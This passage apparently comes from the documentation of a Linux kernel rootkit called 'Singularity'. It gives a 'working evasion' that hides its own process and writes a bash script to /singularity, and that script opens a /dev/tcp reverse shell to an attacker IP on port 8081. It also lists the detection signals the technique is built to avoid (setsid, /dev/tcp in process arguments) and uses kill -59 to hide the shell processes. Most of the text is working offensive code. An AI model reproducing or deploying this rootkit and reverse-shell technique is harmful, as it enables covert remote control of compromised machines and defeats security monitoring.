 **Why detected:**
- Uses `setsid` command
- `/dev/tcp/` appears in process arguments
- Shell spawned from kernel worker context

## Working Evasion: Staged Script Execution

The solution is to **separate the malicious payload from process arguments** by writing the script to disk first, then executing it.

### Key Changes

**1. Write the script to disk:**

```c
#define SCRIPT_PATH "/singularity"

// Hide kworker immediately
add_hidden_pid(current->pid);

// Create script with automatic process hiding
snprintf(script, sizeof(script),
         "#!/bin/bash\n"
         "exec 196<>/dev/tcp/%s/%s\n"
         "sh <&196 >&196 2>&196 &\n"
         "SHELL_PID=$!\n"
         "sleep 1\n"
         "kill -59 $SHELL_PID\n"
         "kill -59 $$\n",
         YOUR_SRV_IP, SRV_PORT);

f = filp_open(SCRIPT_PATH, O_WRONLY | O_CREAT | O_TRUNC, 0755);
kernel_write(f, script, strlen(script), &pos);
```

**2. Execute with clean command line:**

```c
char *argv[] = {"/bin/bash", SCRIPT_PATH, NULL};
call_usermodehelper_exec(sub_info, UMH_WAIT_PROC);
```

### How It Works

**Step 1:** The rootkit immediately hides the kworker thread executing the payload using `add_hidden_pid(current->pid)`, making the entire process chain invisible from the start.

**Step 2:** It writes `/singularity` containing:
```bash
#!/bin/bash
exec 196<>/dev/tcp/192.168.200.164/8081
sh <&196 >&196 2>&196 &
SHELL_PID=$!
sleep 1
kill -59 $SHELL_PID
kill -59 $$
```
